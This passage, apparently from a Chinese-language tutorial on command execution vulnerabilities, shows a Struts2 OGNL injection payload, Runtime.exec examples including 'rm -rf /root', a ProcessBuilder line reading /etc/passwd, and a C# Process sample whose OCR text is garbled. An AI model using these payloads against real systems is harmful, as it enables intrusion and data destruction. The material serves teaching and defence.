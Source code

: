 ```
?(’#_memberAccess[‘allowStaticMethodAccess’]’)(meh)=true&(aaa)((’#context[\ ‘xwork.MethodAccessor.denyMethodExecution’]=#foo’)(#foo=new%20java.lang.Boolean(“false”)))&(asdf)((’#rt.exit(1)’)(#rt\u003d@java.lang.Runtime@getRuntime()))=1
```

OGNL 处理时最终的结果就是：

java.lang.Runtime.getRuntime().exit(1);  
类似的可以执行如下语句：

```
java.lang.Runtime.getRuntime().exec(“net user”);
java.lang.Runtime.getRuntime().exec(“rm -rf /root”);
```

触发途径

通过对一系列的 struts2 的 poc 观察，一般是通过修改 StaticMethodAccess 或是创建 ProcessBuilder 对象。

```
#_memberAccess["allowStaticMethodAccess"]=true // 用来授权允许调用静态方法
或
new java.lang.ProcessBuilder(new java.lang.String[]{'cat','/etc/passwd'})).start()
```

### C#

#### 命令执行 - Process 类

C# 的 Process 类提供对本地和远程进程的访问权限并能够启动和停止本地系统进程。

下面的示例使用类的实例 Process （https://docs.microsoft.com/zh-cn/dotnet/api/system.diagnostics.process?view=net-5.0）来启动进程。

```
usingSystem;
usingSystem.Diagnostics;
usingSystem.ComponentModel;
namespaceMyProcessSample
{
classMyProcess
{
publicstaticvoidMain()
{
try
{
using(Process myProcess =newProcess())
{
                    myProcess.StartInfo.UseShellExecute=false;
// 我们可以启动任何进程，HelloWorld是一个不执行任何操作的示例。
                    myProcess.StartInfo.FileName="C:\\HelloWorld.exe";
                    myProcess.StartInfo.CreateNoWindow=true;
                    myProcess.Start();
// 这段代码假定我们正在启动的进程将自行终止。
// 因为它在没有窗口的情况下启动，所以不能在桌面上终止它。
// 它必须自行终止，或者我们可以在这个应用程序中使用Kill方法
// 以编程的方式完成它。a
```
